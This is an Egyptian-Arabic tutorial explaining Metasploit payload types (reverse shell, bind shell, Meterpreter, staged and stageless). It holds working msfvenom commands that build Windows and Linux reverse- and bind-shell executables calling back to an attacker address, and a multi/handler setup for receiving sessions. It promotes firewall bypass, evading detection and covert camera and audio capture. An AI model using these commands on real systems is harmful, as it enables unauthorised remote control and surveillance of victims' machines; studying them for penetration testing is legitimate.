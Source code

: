 
# **📌 يعني إيه Payload؟**

الـ **Payload** هو الجزء اللي بيتنفذ بعد استغلال الثغرة وبيسمحلك **بالتحكم في الجهاز المستهدف**.  
تقدر تعتبره **الأوامر اللي بتتبعت للجهاز الضحية عشان تعمل حاجة معينة**، زي فتح **جلسة تحكم (Session)** أو تشغيل أمر معين.

---

# **🔥 أنواع الـ Payloads في Metasploit**

## **🟢 1. Reverse Shell (التحكم العكسي)**

🔹 الفكرة هنا إن الضحية (الجهاز المستهدف) هو اللي بيتصل بجهازك، مش العكس.  
📌 **ليه مهم؟**  
✅ بيعدي الفايروول بسهولة لأن الاتصال جاي من الضحية.  
✅ مش محتاج تفتح بورت في الشبكة بتاعتك.

💻 **مثال على إنشاء Reverse Shell للويندوز:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```

⬅️ ده بيخلق ملف تنفيذ (exe) لما الضحية يشغله، هيتصل بجهازك ويديك تحكم كامل.

---

## **🟢 2. Bind Shell (التحكم المباشر)**

🔹 هنا الجهاز المستهدف بيفتح **بورت** وانت بتتصل عليه.  
📌 **إيه مشكلته؟**  
❌ لو الفايروول قافل البورتات، مش هتقدر توصله.  
✅ بس مفيد لو انت عارف إن الشبكة مفتوحة.

💻 **مثال على Bind Shell للينكس:**

```bash
msfvenom -p linux/x86/shell/bind_tcp RHOST=192.168.1.200 LPORT=5555 -f elf > bind.elf
```

⬅️ الضحية بيفتح بورت 5555، وانت تتصل عليه باستخدام Netcat أو Metasploit.

---

## **🟢 3. Meterpreter (التحكم المتقدم)**

🔹 ده **أقوى Payload** لأنه مش مجرد شيل عادي، لكنه بيديك تحكم كامل.  
📌 **مميزاته:**  
✅ تنفيذ أوامر بدون ما تكتشف بسهولة  
✅ تحميل ملفات من وإلى الجهاز المستهدف  
✅ تشغيل كاميرا أو تسجيل الصوت  
✅ رفع الامتيازات (Privilege Escalation)

💻 **مثال على Meterpreter Payload:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > meterpreter.exe
```

⬅️ لما الضحية يشغله، هتتحكم فيه بالكامل من خلال Metasploit.

---

## **🟢 4. Staged vs. Stageless Payloads**

📌 **Staged**:  بيتبعت على أجزاء، وده بيقلل حجمه وبيساعده يتخطى الحماية.   Payload الـ 

📌 **Stageless**: بيتبعت مرة واحدة، وده بيخليه أسرع لكنه أسهل في الاكتشاف. Payload الـ 
💻 **مثال على Staged Payload:**

```bash
windows/meterpreter/reverse_tcp
```

⬅️ بيبعت جزء صغير الأول وبعدها بيحمل باقي الكود لما يتحقق الاتصال.

💻 **مثال على Stageless Payload:**

```bash
windows/meterpreter_reverse_tcp
```

⬅️ بيبعت كل حاجة مرة واحدة، لكنه ممكن يتكشف بسهولة أكبر.

---

# **💡 الخلاصة بالمصري:**

1️⃣ **الـ Payload هو الكود اللي بيديك تحكم في الجهاز بعد ما تستغله.**  
2️⃣ **فيه أنواع زي Reverse Shell (الضحية يتصل بيك) و Bind Shell (انت تتصل بالضحية).**  
3️⃣ **Meterpreter هو أقوى نوع لأنه بيديك تحكم متقدم في النظام.**  
4️⃣ **فيه Payloads Staged (بتتحمل على أجزاء) و Stageless (بتتحمل بالكامل).**

---

# **🛠️ خطوات عملية لإنشاء وتشغيل Payload في Metasploit**

✅ **1. إنشاء Reverse Shell للويندوز:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

⬅️ ده هيخلق ملف تنفيذي لما الضحية يشغله، هيتصل بجهازك.

✅ **2. إعداد Metasploit لاستقبال الاتصال:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload على الضحية، هتوصلك جلسة تحكم كاملة!** 🔥